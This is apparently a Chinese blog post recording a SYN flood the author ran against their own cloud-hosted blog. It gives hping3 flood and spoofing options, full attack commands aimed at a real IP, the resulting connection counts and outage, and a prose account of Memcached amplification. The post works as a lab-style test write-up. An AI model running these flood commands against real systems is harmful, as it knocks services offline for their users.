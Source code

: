 ```yaml
---
title: SYN Flood Attack
author: blog@jiekun.dev
type: post
date: 2019-12-26T14:03:53+00:00
excerpt: SYN Flood攻击本博客实践
featured_image: /wp-content/uploads/2019/12/Screenshot-from-2019-12-26-22-02-50.png
rank_math_primary_category:
  - 29
rank_math_seo_score:
  - 18
rank_math_internal_links_processed:
  - 1
categories:
  - 最佳实践
archieved: true

---
```

## 什么是SYN Flood

SYN Flood，又称TCP Flood，是利用TCP协议三次握手消耗目标服务器资源的DDoS攻击。客户端通过伪造SYN包，使用伪造的源IP地址，因为服务端收到请求后会对SYN进行响应——发送SYN和ACK包，但是对方的地址是伪造的因此不会响应，服务端会重试几次后丢弃这个连接。这样会导致服务端对多个伪造的SYN包在重试响应，无暇理睬正常的连接请求。

## 实践

### 初步尝试

根据定义，需要向特定服务发送大量的TCP SYN包，因此需要利用一些发包工具。通过搜索找到[hping工具][1]，作者是antirez（Redis作者）。以下是安装及文档中部分实践使用到的参数：

```
uck@duck-MS-7A34:~$ sudo apt install hping3
duck@duck-MS-7A34:~$ sudo hping --help
usage: hping3 host [options]
  -i  --interval  wait (uX for X microseconds, for example -i u1000)
      --fast      alias for -i u10000 (10 packets for second)
      --faster    alias for -i u1000 (100 packets for second)
      --flood      sent packets as fast as possible. Don't show replies.
IP
  -a  --spoof      spoof source address
  --rand-dest      random destionation address mode. see the man.
  --rand-source    random source address mode. see the man.
UDP/TCP
  -s  --baseport   base source port             (default random)
  -p  --destport   [+][+]&lt;port> destination port(default 0) ctrl+z inc/dec
  -S  --syn        set SYN flag

```
尝试攻击部署在阿里云的个人博客：

```
uck@duck-MS-7A34:~$ sudo hping3 -i u1000 -S -p 443 120.25.247.125
HPING 120.25.247.125 (enp33s0 120.25.247.125): S set, 40 headers + 0 data bytes
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=0 win=29200 rtt=15.8 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=1 win=29200 rtt=14.7 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=2 win=29200 rtt=13.6 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=3 win=29200 rtt=12.6 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=4 win=29200 rtt=11.5 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=5 win=29200 rtt=10.5 ms
...

```
此时可以在ECS上看到网络情况，通过netstat命令查看到处于SYN_RECV的大量TCP连接，如图所示：

![](../2019/12/001-zhujiekun-SYN_RECV.png)
### 暴力发包

尝试将攻击频率调快：`sudo hping3 -i u1 -S -p 443 120.25.247.125`，然后在ECS上查看当前的SYN包个数：

```
uck@iZwz92ujq5zpxvm1vtq0gtZ:~$ netstat -n | grep SYN | wc -l
128

```
只有128个TCP半连接，与发包数量相差很大。猜测是系统配置限制了总TCP连接数上限或者半连接状态连接数上限。

通过查询相关文档，找到系统配置：

```
uck@iZwz92ujq5zpxvm1vtq0gtZ:~$ vim /etc/sysctl.conf
vm.swappiness = 0
net.ipv4.neigh.default.gc_stale_time = 120

# see details in https://help.aliyun.com/knowledge_detail/39428.html
net.ipv4.conf.all.rp_filter = 0
net.ipv4.conf.default.rp_filter = 0
net.ipv4.conf.default.arp_announce = 2
net.ipv4.conf.lo.arp_announce = 2
net.ipv4.conf.all.arp_announce = 2

# see details in https://help.aliyun.com/knowledge_detail/41334.html
net.ipv4.tcp_max_tw_buckets = 5000
net.ipv4.tcp_syncookies = 1
net.ipv4.tcp_max_syn_backlog = 128
net.ipv4.tcp_synack_retries = 2

net.ipv6.conf.all.disable_ipv6 = 1
net.ipv6.conf.default.disable_ipv6 = 1
net.ipv6.conf.lo.disable_ipv6 = 1
net.ipv6.conf.eth0.disable_ipv6 =1

kernel.sysrq = 1

```
其中一项`net.ipv4.tcp_max_syn_backlog = 128`可能是有关项，并且通过查阅文件中提供的阿里云文档，得到参数和它相关参数的具体描述：

  * `net.ipv4.tcp_max_syn_backlog`：该参数决定了系统中处于SYN\_RECV状态的TCP连接数量。SYN\_RECV状态指的是当系统收到SYN后，作为SYN+ACK响应后等待对方回复三次握手阶段中的最后一个ACK的阶段。对于还未获得对方确认的连接请求，可保存在队列中的最大数目。如果服务器经常出现过载，可以尝试增加这个数字。默认为1024。
  * `net.core.somaxconn`：该参数定义了系统中每一个端口最大的监听队列的长度，是个全局参数。该参数和net.ipv4.tcp\_max\_syn_backlog有关联，后者指的是还在三次握手的半连接的上限，该参数指的是处于ESTABLISHED的数量上限。当backlog大于net.core.somaxconn时，以net.core.somaxconn参数为准。

那么将他们都改成一个特别大的数值然后保存，再尝试SYN Flood，结果如下：

  * 因为发包占用了很多的流量所以本机无法SSH上ECS查看
  * 通过阿里云的管理面板查看到TCP包一共64000个，其中NON_ESTABLISHED状态的包占了几乎全部数量
* 访问https的博客地址无法响应

![](../2019/12/001-zhujiekun-TCP_connection_count.png)
### 持续监控

在持续发包一段时间后，发现TCP连接数下降至约500个，并且博客站点重新可以访问。因为时间原因没有尝试其他的手段，主要推测可能是现有的系统（也可能是协议层、云服务商等）对暴力SYN Flood攻击有判断和校验，丢弃特定特征的包（相同IP、端口或者其他指纹）。

因为ECS地理位置离测试地点较近，所以通常延迟非常低。在SYN状态TCP连接数量从64k下降到500时，站点可以进行访问但是观察到速度比原来明显缓慢，通过这点猜测DoS攻击有生效但是受限于使用的发起攻击的设备流量条件不足以拖跨服务。

## 延伸思考

因为设备条件问题，虽然可以观察到大量半连接的TCP状态，但是离DoS（Denial of Service）还是有很大的差距，消耗不完目标的网络带宽或系统资源。那是否有方案通过小流量产生大流量（放大）的攻击呢？

### Memcached DDoS

当Memcached服务器接收到GET请求，它从内存获取相关信息组织起一个RESPONSE，然后通过连续的UDP包进行返回。通常来说GET请求的体积和RESPONSE的体积大小可以相差很多倍。

攻击者可以利用这点，先向Memcached服务器插入随机的大体积数据，然后向服务器请求。根据CloudFlare的报告，这样会导致一个巨大的流量放大倍数，例如15 byte的请求可以引起134KB的响应。当Memcached响应的对象指向攻击目标机器的时候，目标机器就会收到海量的UDP包，从而可能导致拒绝服务。

 [1]: https://github.com/antirez/hping